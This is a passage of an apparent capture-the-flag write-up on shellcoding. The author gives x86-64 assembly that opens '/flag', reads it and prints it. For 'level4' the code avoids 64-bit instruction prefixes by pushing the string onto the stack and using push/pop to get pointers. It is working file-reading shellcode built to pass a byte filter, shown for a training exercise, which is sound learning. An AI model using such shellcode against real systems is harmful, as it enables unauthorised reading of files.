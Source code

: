 ```asm
    syscall
    mov rdi, rax
    mov rsi, rsp
    xor rdx, rdx
    mov dl, 100
    xor rax, rax
    syscall
    xor rdi, rdi
    mov dil, 1
    mov rsi, rsp
    mov rdx, rax
    xor rax, rax
    mov al, 1
    syscall
    xor rax, rax
    mov al, 60
    syscall
```

# level4

- Credit: Thank you `connojd`!

This level requires me not to use any H-bytes, meaning no 64-bit operations. Well for the most parts, that's easy, we can just use 32-bit registers. However, carrying the `/flag\0` string around was the hardest part here. A nice fella on Discord helped me out greatly on this one. I just pushed necessary char bytes to the stack, and used `push rsp`, `pop REG` consecutively to imitate `mov REG, rsp`. Here `REG` is any 64-bit register you want. 

```
.global _start
.intel_syntax noprefix
_start:
    mov eax, 2
    mov cx, 0x0067
    push cx
    mov cx, 0x616c
    push cx
    mov cx, 0x662f
    push cx
    push rsp
    pop rdi
    mov esi, 0
    syscall
    mov edi, eax
    push rsp
    pop rsi
    mov edx, 100
    mov eax, 0
    syscall
    mov edi, 1
    push rsp
    pop rsi
    mov edx, eax
    mov eax, 1
    syscall
    mov eax, 60
    syscall
```

